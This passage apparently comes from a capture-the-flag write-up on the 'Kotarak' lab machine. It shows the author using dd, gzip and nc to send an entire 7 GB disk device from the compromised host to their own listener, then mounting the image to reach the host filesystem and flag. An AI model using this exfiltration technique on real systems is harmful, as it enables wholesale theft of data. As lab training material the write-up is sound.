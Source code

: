 

`dm-0` is the device I want to read off to get the root of the
filesystem.

#### Exfil Filesystem

I'll use `dd` to read from the device, and `nc` to copy the entire
filesystem off the device back to my host. I'll send it through `gzip`
to compress it so that it will move faster, but it still takes over
seven minutes:



    atanas@kotarak-dmz:~$ time dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.15 443
    14680064+0 records in
    14680064+0 records out
    7516192768 bytes (7.5 GB, 7.0 GiB) copied, 438.725 s, 17.1 MB/s

    real    7m18.932s
    user    2m4.900s
    sys     0m25.648s



Back on my host:



    oxdf@parrot$ nc -lnvp 443 > dm-0.gz
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 34610



When it's done, the compressed file is a bit over two gigs:



    oxdf@parrot$ ls -lh dm-0.gz
    -rwxrwx--- 1 root vboxsf 2.2G May 15 15:21 dm-0.gz



It decompresses to seven gigs:



    oxdf@parrot$ gunzip dm-0.gz 
    oxdf@parrot$ ls -lh dm-0 
    -rwxrwx--- 1 root vboxsf 7.0G May 15 15:40 dm-0



I can mount it, and access the file system:



    oxdf@parrot$ sudo mount dm-0-orig /mnt/
    oxdf@parrot$ ls /mnt/
    backups  bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old



`/root` is the host system, with `flag.txt`, not the container with
`root.txt`:
